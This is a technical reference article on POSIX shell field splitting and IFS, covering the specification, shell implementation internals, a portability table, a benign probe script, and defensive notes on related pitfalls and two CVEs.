

# Field Splitting and IFS

> [!summary] Claim
> Field splitting is a post-expansion byte scan that partitions only the unquoted results of parameter expansion, command substitution, and arithmetic expansion into separate `argv` fields using the characters in `IFS` as field terminators before pathname expansion runs.

Part of [The POSIX Shell Language](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: After step 1 word expansions (`[[Parameter-Expansion]]`, `[[Command-Substitution]]`, and `[[Arithmetic-Expansion]]`), the shell scans only the byte ranges produced by unquoted expansions and splits them on characters in `IFS` (`(POSIX.1-2024 XCU 2.6.5)`).
- Rule: `IFS` whitespace (`<space>`, `<tab>`, `<newline>`) is stripped at field edges and collapses across adjacent runs, whereas each non-whitespace `IFS` character (plus any adjacent `IFS` whitespace, matching the ERE `(s*ns*|s+)`) terminates a field and yields an empty field when doubled (`(POSIX.1-2024 XRAT C.2.6.5)`).
- Trap: Unsetting `IFS` (`unset IFS`) does not disable splitting - it restores default `<space><tab><newline>` splitting, whereas only setting `IFS=` (the empty string) disables field splitting (`(POSIX.1-2024 XCU 2.5.3)`).
- Portability fact: Native `zsh` disables field splitting on unquoted parameter expansions unless `SH_WORD_SPLIT` or `${=var}` is used and sets default `IFS` to 4 bytes (`<space><tab><newline><NUL>`), while `zsh --emulate sh` treats non-whitespace `IFS` characters as separators rather than terminators, producing an extra trailing empty field on `a:` (`(zsh-5.9 Src/init.c, setupvals; Src/utils.c, spacesplit)`).
- When not to use it: Never mutate `IFS` to parse structured records (CSV, JSON, or multi-field logs) or to hold argument lists in a scalar string; use positional parameters (`set --`, `"$@"`), shell arrays where available, or `awk`/`jq`/`python3`.

## Mental model



An input word token enters the expansion pipeline (`[[Expansion-Order]]`) after lexical `[[Token-Recognition]]` has already delimited words on unquoted literal metacharacters.
Step 1 expands tilde prefixes (`[[Tilde-Expansion]]`), parameters (`[[Parameter-Expansion]]`), command substitutions (`[[Command-Substitution]]`), and arithmetic expressions (`[[Arithmetic-Expansion]]`), tagging only the byte ranges produced by unquoted parameter, command, and arithmetic expansions as eligible candidates.
If `IFS` is set to the null string (`IFS=''`), the splitter bypasses byte scanning and merely elides any input word whose expansion was wholly unquoted and empty (`(POSIX.1-2024 XCU 2.6.5)`).
If `IFS` is unset or non-empty, the scanner walks the candidate byte ranges, discarding leading and trailing `IFS` whitespace (`s+`) and terminating a field at each run of `IFS` whitespace or at each single non-whitespace `IFS` delimiter `n` along with its adjacent `IFS` whitespace (`s*ns*`).
The resulting ordered list of fields feeds directly into `[[Pathname-Expansion]]` (unless `set -f` is active in `[[The-set-Builtin-and-Shell-Options]]`), undergoes `[[Quote-Removal]]`, and is marshaled into the null-terminated `argv[]` pointer vector passed to `execve(2)`.

## How it works

### Specification: POSIX.1-2024 XCU 2.6.5 and Defect 1649

POSIX.1-2024 (`(POSIX.1-2024 XCU 2.6)`) places Field Splitting at step 2 of word expansion, strictly after step 1 (Tilde, Parameter, Command, and Arithmetic Expansion) and strictly before step 3 (`[[Pathname-Expansion]]`) and step 4 (`[[Quote-Removal]]`).
Literal characters that were present in the original token - including unquoted characters matching `IFS` - are never split during step 2 because token boundaries were already fixed during `[[Token-Recognition]]` (`(POSIX.1-2024 XRAT C.2.6)`).
Results of `[[Tilde-Expansion]]` (`~`) and results of any expansion enclosed in double quotes (`[[Quoting-Backslash-Single-and-Double]]`) are also immune to field splitting (`(POSIX.1-2024 XCU 2.6.1, 2.6.5)`).

In Issue 8 (`[[POSIX-2024-Changes]]`), Austin Group Defect 1560 and Defect 1649 replaced the ambiguous prose of POSIX.1-2008 with an explicit byte-level state machine (`(POSIX.1-2024 XCU 2.6.5; XRAT C.2.6.5)`).
The specification partitions the characters in `IFS` into two classes:
1. `IFS` white space (`s`): ASCII `<space>` (`0x20`), `<tab>` (`0x09`), and `<newline>` (`0x0a`) whenever they appear in `IFS` (regardless of locale), plus optionally implementation-defined locale whitespace characters (`iswspace(3)`).
2. `IFS` non-white space (`n`): Any other character present in `IFS`.

When `IFS` is unset, the shell treats `IFS` for splitting purposes as the 3-byte sequence `<space><tab><newline>` without altering the unset state of the variable itself (`(POSIX.1-2024 XCU 2.5.3, 2.6.5)`).
When `IFS` is set to an empty string (`IFS=`), no field splitting occurs, but any input field that contained expansion results and is wholly empty (having no quoted null strings before quote removal) is deleted from the field list (`(POSIX.1-2024 XCU 2.6.5)`).

For each input field containing at least one unquoted expansion result, the POSIX.1-2024 byte scanner maintains a `candidate` buffer and loops until the input field is exhausted (`(POSIX.1-2024 XCU 2.6.5)`):
1. Bytes that did not result from an unquoted expansion (literal bytes, tilde results, or quoted expansion bytes) are appended directly to `candidate`.
2. Bytes from an unquoted expansion that do not form an `IFS` character are appended to `candidate`.
3. Bytes from an unquoted expansion that form `IFS` white space (`s`) are consumed in a contiguous run; if an `IFS` non-white-space character (`n`) immediately follows that run, it is also consumed (along with any trailing `IFS` white space) as part of the same delimiter (`s*ns*`).
4. Bytes from an unquoted expansion that form an `IFS` non-white-space character (`n`) are consumed along with any trailing `IFS` white space (`ns*`), and the algorithm records that a non-whitespace delimiter was seen.
5. After step 3 or 4, a field is delimited and `candidate` is emitted as an output field if and only if `candidate` is non-empty OR a non-whitespace `IFS` character (`n`) was seen.
6. When the input reaches end-of-field, `candidate` is emitted if and only if it is non-empty.

Because step 6 emits a final field only when `candidate` is non-empty, `IFS` characters act as **field terminators**, not field separators (`(POSIX.1-2024 XCU 2.6.5; XCU sh RATIONALE)`).
Under `IFS=:`, the string `:a:b:` produces three fields (`""`, `"a"`, `"b"`), not four: the first `:` terminates an empty candidate `""`, the second `:` terminates `"a"`, the third `:` terminates `"b"`, and the empty candidate at end-of-input is discarded by step 6.

### Contexts where field splitting is suppressed

Even without double quotes around an expansion, POSIX and common shells suppress field splitting in specific syntactic contexts where a single word is required:
- The right-hand side `word` of a scalar variable assignment `var=$other` or `export var=$other` (`[[Simple-Commands-and-Assignment-Prefixes]]`, `[[Special-Built-ins-versus-Utilities]]`) does not undergo field splitting (`(POSIX.1-2024 XCU 2.9.1.1)`; since Issue 8, `export` is a declaration utility, so `export var=$other` is expanded as an assignment).
- The `word` in `case $x in ...` (`[[Compound-Commands]]`) and the body of a `[[Here-Documents]]` (`<<EOF`) do not undergo field splitting (`(POSIX.1-2024 XCU 2.9.4.3, 2.7.4)`).
- Redirection targets (`>$file` in `[[Redirection-Order-and-Semantics]]`) do not undergo field splitting in POSIX shells, because XCU 2.7 lists tilde, parameter, command, and arithmetic expansion plus quote removal for the redirection word but not field splitting (`(POSIX.1-2024 XCU 2.7)`), though `bash` in non-POSIX mode splits them and raises an `ambiguous redirect` error if multiple fields result (`(bash-5.3 redir.c, redirection_expand)`), while `bash --posix` does not split them (run on `bash` 5.2.37, 2026-10).
- Inside `[[ ... ]]` conditional expressions (a KornShell/Bash/Zsh extension outside `[[The-test-Builtin]]`), field splitting is never performed on operand words.

### Special parameters `$*` and `$@`

The special parameters `$*` and `$@` (`[[Special-Parameters]]`) interact with `IFS` in distinct ways (`(POSIX.1-2024 XCU 2.5.2)`):
- Unquoted `$*` and unquoted `$@` initially expand to one field per positional parameter; if `IFS` is non-empty or unset, each non-empty field is then split further by `IFS`, and unquoted empty positional parameters may be discarded (XCU 2.5.2 permits but does not require this).
- Double-quoted `"$*"` does not undergo field splitting; instead, it joins all positional parameters into a single field separated by the first character of `IFS` (`IFS[0]`), by `<space>` if `IFS` is unset, or with no separator byte (`""`) if `IFS` is null (`(POSIX.1-2024 XCU 2.5.2)`).
- Double-quoted `"$@"` expands to one separate output field per positional parameter (`$1`, `$2`, ...), preserving empty parameters (`""`) and immune to `IFS` regardless of what `IFS` contains (`(POSIX.1-2024 XCU 2.5.2)`).

### Implementation internals across shells

Real shells use three distinct architectures to distinguish splittable expansion bytes from unsplittable literal or quoted bytes:

1. **Out-of-band region lists (`dash` and BusyBox `ash`)**:
   During step 1 (`argstr()`), `dash` writes the expanded word into a contiguous stack buffer (`expdest` on `stackblock()`) and calls `recordregion(startloc, newloc, 0)` whenever an unquoted parameter (`evalvar`), command substitution (`expbackq`), or arithmetic expansion (`expari`) emits bytes (`(dash-0.5.13 src/expand.c, argstr, recordregion)`).
   Each `struct ifsregion` node records `{begoff, endoff, nulonly}` in a global singly linked list anchored at `ifsfirst` / `ifslastp` (`(dash-0.5.13 src/expand.c, recordregion)`).
   In step 2, `expandarg()` calls `ifsbreakup(p, -1, &exparg)`, which only scans `[string + ifsp->begoff, string + ifsp->endoff)` for each recorded region (`(dash-0.5.13 src/expand.c, ifsbreakup)`).
   Whenever `IFS` changes, `changeifs()` populates a 128-byte ASCII-only lookup table `static char ifsmap[128]` (bytes with the high bit set are never entered) and, if `IFS` contains high-bit bytes, converts `IFS` via `mbsrtowcs(3)` into `wchar_t *wcifs` (`(dash-0.5.13 src/expand.c, changeifs)`).
   Inside `ifsbreakup()`, `dash` uses an 8-byte SWAR (SIMD Within A Register) fast path: while at least 8 bytes remain in the region, it loads a `uint64_t qw`, verifies `!(x.qw & 0x8080808080808080)` (all 8 bytes are ASCII), and checks `ifsmap[x.b[0]] | ... | ifsmap[x.b[7]]` in a single expression before advancing `p += 8` (`(dash-0.5.13 src/expand.c, ifsbreakup)`).
   When a delimiter or high-bit byte is hit, `ifsbreakup_slow()` resolves the character, overwrites the delimiter byte in-place with `'\0'`, appends a `struct strlist` node allocated on the stack arena via `stalloc()`, and finally `expandarg()` calls `ifsfree()` to release heap-allocated `ifsregion` nodes (`(dash-0.5.13 src/expand.c, ifsbreakup_slow, ifsfree)`).

2. **In-band control-character quoting (`bash`)**:
   GNU `bash` does not maintain out-of-band byte offset regions.
   Instead, `expand_word_internal()` builds an intermediate string `istring` in which every literal or double-quoted character that could match `IFS` (or `CTLESC` / `CTLNUL`) is prefixed in-band with `CTLESC` (`'\001'`), and quoted empty strings are represented by `CTLNUL` (`'\177'`) (`(bash-5.3 subst.c, expand_word_internal)`).
   When `IFS` is assigned or modified, `sv_ifs()` calls `setifs()`, which populates `unsigned char ifs_cmap[UCHAR_MAX + 1]` and caches the first (possibly multibyte) character in `ifs_firstc` (`(bash-5.3 variables.c, sv_ifs; subst.c, setifs)`).
   Step 2 calls `word_list_split()` -> `word_split()` -> `list_string()`, which calls `string_extract_verbatim()` in a loop (`(bash-5.3 subst.c, word_list_split, word_split, list_string, string_extract_verbatim)`).
   Inside `string_extract_verbatim()`, any byte preceded by `CTLESC` (`0x01`) is skipped over via `ADVANCE_CHAR` without checking `IFS`, while unescaped bytes are tested against `charlist` (`ifs_value`) (`(bash-5.3 subst.c, string_extract_verbatim)`).
   For each extracted field, `list_string()` receives a heap copy that `string_extract_verbatim()` made via `substring()`, strips `CTLNUL` markers via `remove_quoted_nulls()`, and advances `sindex` past the delimiter and any adjacent `IFS` whitespace (`(bash-5.3 subst.c, list_string)`).

3. **Single-pass state machine or wide-character parallel arrays (`mksh`, `posh`, `yash`, `zsh`)**:
   `mksh` (`(mksh eval.c, expand)`) and `posh` (`(posh eval.c, expand)`) fold expansion and field splitting into a single pass driven by a state variable `word` (`IFS_WORD`, `IFS_WS`, `IFS_NWS`, plus `IFS_IWS` and `IFS_QUOTE` in `mksh`).
   `yash` converts words to `wchar_t *` alongside a parallel per-character category array `char *cc` (`charcategory_T`) and splits in `extract_fields()` only where `cc[index] == CC_SOFT_EXPANSION` (`(yash expand.c, fieldsplit, extract_fields, is_ifs_char)`).
   `zsh` splits the parameter value itself inside `paramsubst()` in `Src/subst.c`, before the value is joined with surrounding literal text, but only when `SH_WORD_SPLIT` is active or `${=var}` sets `spbreak = 2`; it calls `sepsplit()`, which falls through to `spacesplit()` in `Src/utils.c` (`(zsh-5.9 Src/subst.c, paramsubst; Src/utils.c, sepsplit, spacesplit)`).
   Its internal `Meta` (`0x83`) byte is the metafication escape (which is how the `<NUL>` in the default `IFS` is stored) and `Nularg` (`0xa1`, not `0x87`, which is `Star`) marks quoted null strings (`(zsh-5.9 Src/zsh.h)`).

### Down to the system call

Field splitting itself executes entirely in user space with zero system calls.
Once step 2 (`ifsbreakup` / `list_string`), step 3 (`[[Pathname-Expansion]]`), and step 4 (`[[Quote-Removal]]`) finish, the shell converts its internal linked list of fields (`struct strlist` in `dash`, `WORD_LIST` in `bash`) into a contiguous C `char **argv` array and invokes `execve(path, argv, envp)` (or `posix_spawn(3)`).
Inside the Linux kernel (`fs/exec.c`, `do_execveat_common` -> `copy_strings`, which runs before `bprm_execve`), the kernel copies each null-terminated `argv[i]` string from user space into newly allocated pages at the top of the new process stack, enforcing `MAX_ARG_STRLEN` (`32 * PAGE_SIZE`) per field and `ARG_MAX` across `argv[]` and `envp[]` combined.

## Numbers and limits

| Metric or Limit | Value | Source and Date |
|---|---|---|
| Default `IFS` in POSIX shells (`dash`, `bash`, `ksh93`, `mksh`, `yash`, `busybox`, `zsh --emulate sh`) | `3` bytes: `0x20 0x09 0x0a` (`<space><tab><newline>`) | `(POSIX.1-2024 XCU 2.5.3)`; proved by lab (as of 2026-10) |
| Inherited `IFS` at startup in `posh` 0.14.1 (when `IFS=:` in env) | `1` byte: `0x3a` (`:`); fails startup reset | `posh` 0.14.1 lab; Austin Group Defect 884 (as of 2026-10) |
| Default `IFS` in native `zsh` | `4` bytes: `0x20 0x09 0x0a 0x00` (`<space><tab><newline><NUL>`) | `(zsh-5.9 Src/init.c, setupvals)`; proved by lab (as of 2026-10) |
| Spurious backslash in `ksh93u+m 1.0.10` `"$*"` with null `IFS` and empty parameter | `1` byte: `0x5c` (`\`) inserted | `ksh93u+m 1.0.10` lab; introduced 2022-07-28, fixed 2025-03-21 on the `dev` and `1.0` branches, no tagged release after `v1.0.10` (ksh93/ksh `NEWS` and releases, as of 2026-10) |
| Single-byte `IFS` lookup table (`ifs_cmap` in `bash`, `ifsmap` in `dash`) | `bash`: `256` bytes (`UCHAR_MAX + 1`); `dash`: `128` bytes (ASCII only) | `(bash-5.3 subst.c, ifs_cmap, setifs)`; `(dash-0.5.13 src/expand.c, ifsmap, changeifs)` |
| `dash` SWAR ASCII non-`IFS` scan stride | `8` bytes (`sizeof(uint64_t)`, mask `0x8080808080808080`) | `(dash-0.5.13 src/expand.c, ifsbreakup)` |
| `dash` / BusyBox `ash` candidate region node (`struct ifsregion`) | `24` bytes on LP64 (`8`-byte `next` pointer + 3 `int` fields = `20`, padded to `8`-byte alignment; `sizeof` measured with clang on arm64 macOS; 1st node static in `ifsfirst`) | `(dash-0.5.13 src/expand.c, recordregion)`; `(busybox-1.38.0 shell/ash.c, recordregion)` |
| `bash` in-band quoting escape bytes | `CTLESC = 0x01`, `CTLNUL = 0x7f` (`1` escape byte per quoted special byte) | `(bash-5.3 shell.h, CTLESC, CTLNUL; subst.c, string_extract_verbatim)` |
| `"$*"` join separator buffer in `bash` (`ifs_firstchar`) | `MB_LEN_MAX + 1` bytes (`17` bytes on glibc where `MB_LEN_MAX = 16`; `7` bytes on macOS where `MB_LEN_MAX = 6`) | `(bash-5.3 subst.c, ifs_firstchar)`; glibc `include/limits.h`; macOS SDK `arm/limits.h` |
| `dash` command substitution pipe read chunk (`expbackq`) | `128` bytes (`char buf[128]`) | `(dash-0.5.13 src/expand.c, expbackq)` |
| Kernel `execve(2)` `ARG_MAX` ceiling for split `argv[]` + `envp[]` | `1,048,576` bytes (`1 MiB`) on macOS; on Linux `1/4` of `RLIMIT_STACK` (`2,097,152` bytes with the common `8 MiB` stack limit), capped at `3/4` of `_STK_LIM` and never below `131,072` bytes (`ARG_MAX`, 32 pages) | `getconf ARG_MAX` on macOS and in the Debian container; Linux `fs/exec.c`, `bprm_stack_limits` (as of 2026-10) |
| Linux kernel per-field ceiling (`MAX_ARG_STRLEN`) and max argument count (`MAX_ARG_STRINGS`) | `131,072` bytes (`PAGE_SIZE * 32` at 4 KiB pages); `0x7fffffff` strings | Linux `include/uapi/linux/binfmts.h` (as of 2026-10) |

## Portability

| Behavior / Scenario | POSIX.1-2024 (`sh`) | macOS `bash` 3.2 | `bash` 5.3 | `zsh` 5.9 (native) | `zsh` 5.9 (`--emulate sh`) | `dash` 0.5.12 / 0.5.13 | `ksh93` (`93u+` / `93u+m 1.0.10`) | `mksh` / `yash` / BusyBox `ash` | `posh` 0.14.1 |
|---|---|---|---|---|---|---|---|---|---|
| Default `${#IFS}` and hex bytes on invocation (clean env) | `3` (`20090a`) (`(POSIX.1-2024 XCU 2.5.3)`) | `3` (`20090a`) (run 2026-10) | `3` (`20090a`) (run 2026-10) | `4` (`20090a00`, includes NUL) (lab; `Src/init.c`) | `3` (`20090a`) (lab; `Src/init.c`) | `3` (`20090a`) (run 2026-10) | `3` (`20090a`) (run 2026-10) | `3` (`20090a`) (run 2026-10) | `3` (`20090a`) (run 2026-10) |
| Inherited `env IFS=:` reset on shell invocation | Resets to `20090a` (`(POSIX.1-2024 XCU 2.5.3)`) | Overwrites `envp` `IFS` with `20090a` (lab; child `envp` run 2026-10) | Overwrites `envp` `IFS` with `20090a` (lab; `variables.c:586-587`) | Resets internal `IFS`, but leaves `IFS=:` in child `envp` (`PM_DONTIMPORT`, `params.c:320` in 5.9, `:354` on `master`) (lab; run 2026-10) | Resets internal `IFS`, but leaves `IFS=:` in child `envp` (lab; run 2026-10) | Overwrites `envp` `IFS` with `20090a` (lab; run 2026-10) | Overwrites `envp` `IFS` with `20090a` (lab; run 2026-10) | Overwrites `envp` `IFS` with `20090a` (lab; run 2026-10) | **Inherits `IFS=:` without reset (`len=1 hex=3a`)** (lab; bug) |
| Unquoted `$var` undergoes field splitting | Yes (`(POSIX.1-2024 XCU 2.6.5)`) | Yes (lab) | Yes (lab) | **No** (`SH_WORD_SPLIT` off; requires `${=var}`) (lab) | Yes (`SH_WORD_SPLIT` on) (lab) | Yes (lab) | Yes (lab) | Yes (lab) | Yes (lab) |
| Unquoted `$(cmd)` undergoes field splitting | Yes (`(POSIX.1-2024 XCU 2.6.5)`) | Yes (lab) | Yes (lab) | **Yes** (splits on `IFS` even with `SH_WORD_SPLIT` off) (lab) | Yes (lab) | Yes (lab) | Yes (lab) | Yes (lab) | Yes (lab) |
| `IFS=:; v=':a:b:'; set -- $v` (`$#` and fields) | `3`: `<><a><b>` (terminator rule) | `3`: `<><a><b>` (lab) | `3`: `<><a><b>` (lab) | `1`: `<:a:b:>` (`${=v}` gives `4`: `<><a><b><>`) (lab; `${=v}` run 2026-10) | **`4`: `<><a><b><>`** (separator rule in `spacesplit`) (lab) | `3`: `<><a><b>` (lab) | `3`: `<><a><b>` (lab) | `3`: `<><a><b>` (lab; `yash` gives `4` if `set -o emptylastfield`, run 2026-10) | `3`: `<><a><b>` (lab) |
| `IFS=:; v=':'; set -- $v` (single non-ws delimiter only) | `1`: `<>` (`(POSIX.1-2024 XCU 2.6.5)`) | `1`: `<>` (lab) | `1`: `<>` (lab) | `1`: `<:>` (lab) | **`2`: `<><>`** (lab) | `1`: `<>` (lab) | `1`: `<>` (lab) | `1`: `<>` (lab) | **`0` fields** (lab; `posh eval.c` drops lone `IFS_NWS`; bug, XCU 2.6.5 delimits an empty field) |
| `IFS=; set -- "" "a b"; printf "<%s>" "$@"` (quoted `"$@"` under null `IFS`) | `2`: `<><a b>` (`(POSIX.1-2024 XCU 2.5.2)`) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | `2`: `<><a b>` (lab) | **`1`: `< a b>`** (lab; joins args with space; bug) |
| `set -- "a b" "" "c:d"; IFS=; printf "%s" "$*"` (quoted `"$*"` with null `IFS` and empty parameter) | `a bc:d` (`(POSIX.1-2024 XCU 2.5.2)`) | `a bc:d` (lab) | `a bc:d` (lab) | `a bc:d` (lab) | `a bc:d` (lab) | `a bc:d` (lab) | `93u+`: `a bc:d`; **`93u+m 1.0.10`: `a b\c:d`** (spurious backslash; lab) | `a bc:d` (lab) | `a bc:d` (lab) |
| Multibyte UTF-8 delimiter in `IFS` (e.g. `U+00F7`, bytes `0xc3 0xb7`, `x="a${sep}b"`) | Character-based: the byte sequences that form the characters in `IFS` are the delimiters (`(POSIX.1-2024 XCU 2.6.5)`) | `2`: `<a><b>`, but `"a ${sep}b"` with `IFS=" $sep"` corrupts to `<a><\xb7b>` (run 2026-10) | `2`: `<a><b>`, but `"a ${sep}b"` with `IFS=" $sep"` yields `3`: `<a><><b>` on macOS arm64 (5.3.15) and `2`: `<a><\xb7b>` on Linux aarch64 (Alpine 5.3.20; Debian 5.2.37), both after `subst.c:3243` `sindex++` (run 2026-10) | `1` (`${=x}` gives `2`: `<a><b>`) (run 2026-10) | `2`: `<a><b>` (even on `"a ${sep}b"`) (run 2026-10) | `0.5.12` (Debian, Alpine) and macOS `/bin/dash` (Apple `dash-16`) split bytewise (`3`: `<a><><b>`) (run 2026-10); `>= 0.5.13` splits charwise via `wcifs` (commit `c0674f48`, 2024-06; source, not run) | `2`: `<a><b>` (even on `"a ${sep}b"`) (both builds, run 2026-10) | `yash` (`wchar_t`) charwise; `mksh` / BusyBox `ash` split bytewise (run 2026-10) | Bytewise (run 2026-10) |
| `IFS=' :' read -r a b` on `'  x : y :  '` (1 trailing `n`) | `a=<x> b=<y :>` by a literal reading of the Issue 8 text, which returns the remainder unmodified except for leading and trailing `IFS` white space (Defect 1778; `[[The-read-Builtin\|read]]`) | `a=<x> b=<y>` (lab) | `a=<x> b=<y>` (lab) | **`a=<x> b=<y :>`** (lab) | **`a=<x> b=<y :>`** (lab) | `a=<x> b=<y>` (lab) | `a=<x> b=<y>` (lab) | `a=<x> b=<y>` (lab) | **`a=<x> b=<: y :>`** (lab; leaves delimiter in remainder; bug) |
| Inherited `env IFS=:` passed through to child `envp` | Resets `IFS` on invocation (`(POSIX.1-2024 XCU 2.5.3)`) | Overwrites `envp` `IFS` with `20090a` (run 2026-10) | Overwrites `envp` `IFS` with `20090a` (`variables.c:586-587`; run 2026-10) | **Leaves `IFS=:` in child `envp`** (`PM_DONTIMPORT`, `params.c:320` in 5.9) (run 2026-10) | **Leaves `IFS=:` in child `envp`** (`PM_DONTIMPORT`) (run 2026-10) | Overwrites `envp` `IFS` with `20090a` (run 2026-10) | Overwrites `envp` `IFS` with `20090a` (run 2026-10) | Overwrites `envp` `IFS` with `20090a` (run 2026-10) | **Inherits `IFS=:` into child `envp`** (run 2026-10; bug) |

## Worked example

The [lab](../labs/03-field-splitting-and-ifs/) script `field-splitting-probe.sh` verifies candidate byte tracking, mixed whitespace and non-whitespace `IFS` delimiters, null versus unset `IFS`, `"$*"` versus `"$@"`, and `[[The-read-Builtin]]` remainder handling across the shell matrix.

```sh
#!/bin/sh
# Probe POSIX XCU 2.6.5 Field Splitting and IFS semantics across shells.
set -eu

fmt_args() {
  printf 'argc=%d' "$#"
  for arg in "$@"; do
    printf ' <%s>' "$arg"
  done
  printf '\n'
}

# 1. Candidate regions (unquoted expansion) vs literal text vs double quotes
IFS=:
x='a:b'
# shellcheck disable=SC2086 # intentional unquoted expansion to test field splitting
set -- $x c:d "$x"
printf '1_candidates: '
fmt_args "$@"

# 2. Mixed IFS whitespace and non-whitespace: ERE (s*ns*|s+) and field termination
IFS=' :'
val='  : a : : b :  '
# shellcheck disable=SC2086 # intentional unquoted expansion to test mixed IFS
set -- $val
printf '2_mixed_ifs:  '
fmt_args "$@"

# 3. Null IFS="" disables splitting but still elides unquoted empty expansion
IFS=
empty=''
spaced='a b'
# shellcheck disable=SC2086 # intentional unquoted expansions under null IFS
set -- $empty "$empty" $spaced
printf '3_null_ifs:   '
fmt_args "$@"

# 4. Unset IFS behaves as unset for ${IFS-unset} but splits on <space><tab><newline>
unset IFS
# shellcheck disable=SC2086 # intentional unquoted expansions under unset IFS
set -- ${IFS-unset} $spaced
printf '4_unset_ifs:  '
fmt_args "$@"

# 5. "$*" joins positional parameters with IFS[0]; "$@" preserves fields
IFS=:
set -- 'p 1' '' 'p 3'
printf '5_dollar_star: '
fmt_args "$*"
printf '6_dollar_at:   '
fmt_args "$@"

# 6. read modified field splitting with multiple and single trailing delimiters
IFS=' :' read -r first rest <<'EOF'
  alpha : beta : gamma :  
EOF
printf '7_read_multi:  first=<%s> rest=<%s>\n' "$first" "$rest"

IFS=' :' read -r first rest <<'EOF'
  alpha : beta :  
EOF
printf '8_read_single: first=<%s> rest=<%s>\n' "$first" "$rest"
```

Expected output under standard POSIX shells (`dash`, `bash`, `ksh93`, `mksh`, `yash`, BusyBox `ash`):

```text
1_candidates: argc=4 <a> <b> <c:d> <a:b>
2_mixed_ifs:  argc=4 <> <a> <> <b>
3_null_ifs:   argc=2 <> <a b>
4_unset_ifs:  argc=3 <unset> <a> <b>
5_dollar_star: argc=1 <p 1::p 3>
6_dollar_at:   argc=3 <p 1> <> <p 3>
7_read_multi:  first=<alpha> rest=<beta : gamma :>
8_read_single: first=<alpha> rest=<beta>
```

Under `posh` 0.14.1, `3_null_ifs` prints `argc=1 < a b>` (due to `"$@"` erroneously collapsing parameters with space under null `IFS`), `7_read_multi` prints `first=<alpha> rest=<: beta : gamma :>`, and `8_read_single` prints `first=<alpha> rest=<: beta :>` (retaining the unstripped delimiter in the remainder variable).
Under `zsh --emulate sh`, `2_mixed_ifs` prints `argc=5 <> <a> <> <b> <>` and `8_read_single` prints `first=<alpha> rest=<beta :>`.
Under native `zsh`, `1_candidates` prints `argc=3 <a:b> <c:d> <a:b>`, `2_mixed_ifs` prints `argc=1 <  : a : : b :  >`, `4_unset_ifs` prints `argc=2 <unset> <a b>`, and `8_read_single` prints `first=<alpha> rest=<beta :>`.

## Pitfalls

> [!warning] Unquoted expansions feed both field splitting and pathname expansion (CVE-2026-25063)
> - Trigger: Expanding untrusted data unquoted in command, array, or `for`-loop contexts such as `cached_tasks=( $(grep ...) )`, `COMPREPLY=( $(compgen -W "${cached_tasks[*]}" -- "$cur") )`, or `for line in $output` without `set -f`.
> - Symptom: Whitespace inside filenames or task descriptions fragments one logical item into multiple words, and any resulting field containing `*`, `?`, or `[` undergoes `[[Pathname-Expansion]]` against the current working directory; in `gradle-completion` `<= 9.3.0`, unquoted array population fragmented cached task lines and `compgen -W` then expanded the joined word list, so backticks or `$(...)` in a malicious Gradle build file's task descriptions executed arbitrary commands on `<tab>` press; 9.3.1 replaced both with `readarray -t` and `COMPREPLY=( "${cached_tasks[@]}" )` (`(CVE-2026-25063; gradle-completion commit ecacc32b)`).
> - Fix: Always double-quote scalar expansions (`"$var"`), pass argument lists via `"$@"` or `"${arr[@]}"`, read line streams with `while IFS= read -r line` or `readarray -t`, and pair intentional field splitting with `set -f` (`noglob`).

> [!warning] Stale `ifsregion` state after expansion error `longjmp` (CVE-2026-38754 and `dash` `9036ee8d`)
> - Trigger: In `dash` (prior to commit `9036ee8d7140`, committed 2022-12-07 and first released in 0.5.12) and BusyBox `ash` (`1.00` through `1.38.0` per the CVE record), triggering an expansion error (such as `${D?$M...}` inside a here-document or redirection) causes `sh_error()` to `longjmp(3)` (`EXERROR`) out of `expandarg()` before `ifsfree()` is called (`(CVE-2026-38754; dash commit 9036ee8d7140)`).
> - Symptom: The global `ifsfirst` / `ifslastp` linked list retains stale `[begoff, endoff)` byte offsets from the aborted expansion; when the next command runs `ifsbreakup()` on a shorter stack buffer, `p = string + ifsp->begoff` walks past the end of `stackblock()`, causing an out-of-bounds read (the `dash` report shows it leaking heap, stack, and arena addresses to defeat ASLR) or a crash; the CVE record classifies the BusyBox case as a heap overflow causing denial of service.
> - Fix: Upgrade `dash` to `>= 0.5.12`, where `restore_handler_expandarg()` calls `ifsfree()` whenever `EXERROR` is caught in `redirectsafe()` and `expandstr()`; for BusyBox, apply commit `a448b6d5` (merged to `master` 2026-07-06), which adds the same helper to `redirectsafe()`, `expandstr()`, and `evaltree()`, because no BusyBox release after 1.38.0 (2026-05-13) exists as of 2026-10 (`(BusyBox patch 2026-June/092360; busybox-cvs 2026-July/042436; busybox.net)`).

> [!warning] Confusing `unset IFS` with `IFS=` (`[[Null-versus-Unset]]`)
> - Trigger: Running `unset IFS` expecting to disable word splitting, or running `OLDIFS=$IFS; IFS=:; ...; IFS=$OLDIFS` when `IFS` was originally unset.
> - Symptom: `unset IFS` leaves `<space><tab><newline>` splitting active (`(POSIX.1-2024 XCU 2.5.3)`), whereas saving an unset `IFS` via `OLDIFS=$IFS` and restoring `IFS=$OLDIFS` sets `IFS=''` (null string), silently disabling all subsequent field splitting in the script!
> - Fix: Use `IFS=` to disable splitting, `unset IFS` to restore default splitting, or save and restore both state and value using `old_ifs=${IFS-}; old_ifs_set=${IFS+y}` followed by `if [ "${old_ifs_set}" = y ]; then IFS=$old_ifs; else unset IFS; fi` (the same `Sifs=$IFS; Sifs_set=${IFS+y}` pattern appears in `(POSIX.1-2024 XCU sh APPLICATION USAGE)`).

> [!warning] Leaking a mutated `IFS` across commands and shell functions
> - Trigger: Setting `IFS=:` or `IFS=$'\n'` in the current shell environment and calling shell functions (`[[Functions-and-Scope]]`) or commands without restoring `IFS` first, or assuming `IFS=: my_func` scopes `IFS` locally to `my_func`.
> - Symptom: Every unquoted `$var` or `$(...)` inside `my_func` splits on `:` instead of whitespace; worse, in POSIX `sh`, a variable assignment prefix `IFS=: my_func` on a shell function (`[[Simple-Commands-and-Assignment-Prefixes]]`) may persist in the current shell environment after `my_func` returns, because whether it persists is unspecified (`(POSIX.1-2024 XCU 2.9.1.2)`).
